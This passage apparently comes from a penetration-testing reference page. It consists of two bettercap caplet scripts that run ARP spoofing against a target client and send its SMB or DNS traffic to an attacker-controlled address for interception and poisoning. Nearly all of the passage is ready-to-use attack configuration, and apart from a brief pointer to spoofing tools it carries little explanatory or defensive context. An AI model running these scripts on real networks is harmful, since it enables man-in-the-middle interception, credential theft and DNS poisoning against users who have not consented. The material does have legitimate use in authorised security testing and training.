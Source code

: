 {% code title="smb_spoofing.cap" %}
```bash
# quick recon of the network
net.probe on

# set the ARP spoofing
set arp.spoof.targets $client_ip
set arp.spoof.internal false
set arp.spoof.fullduplex false

# reroute traffic aimed at the original SMB server
set any.proxy.iface $interface
set any.proxy.protocol TCP
set any.proxy.src_address $SMB_server_ip
set any.proxy.src_port 445
set any.proxy.dst_address $attacker_ip
set any.proxy.dst_port 445

# control logging and verbosity
events.ignore endpoint
events.ignore net.sniff.mdns

# start the modules
any.proxy on
arp.spoof on
net.sniff on
```
{% endcode %}
{% endtab %}

{% tab title="DNS spoofing" %}
Start the DNS server ([responder](https://github.com/lgandx/Responder), [dnschef](https://github.com/iphelix/dnschef), or [bettercap](https://github.com/bettercap/bettercap)) for [DNS poisoning](dns-spoofing.md) then start the ARP poisoning attack.

{% code title="dns_spoofing.cap" %}
```bash
# quick recon of the network
net.probe on

# set the ARP spoofing
set arp.spoof.targets $client_ip
set arp.spoof.internal false
set arp.spoof.fullduplex false

# reroute traffic aimed at the original DNS server
set any.proxy.iface $interface
set any.proxy.protocol UDP
set any.proxy.src_address $DNS_server_ip
set any.proxy.src_port 53
set any.proxy.dst_address $attacker_ip
set any.proxy.dst_port 53

# control logging and verbosity
events.ignore endpoint
events.ignore net.sniff.mdns

# start the modules
any.proxy on
arp.spoof on
net.sniff on
```
{% endcode %}
{% endtab %}
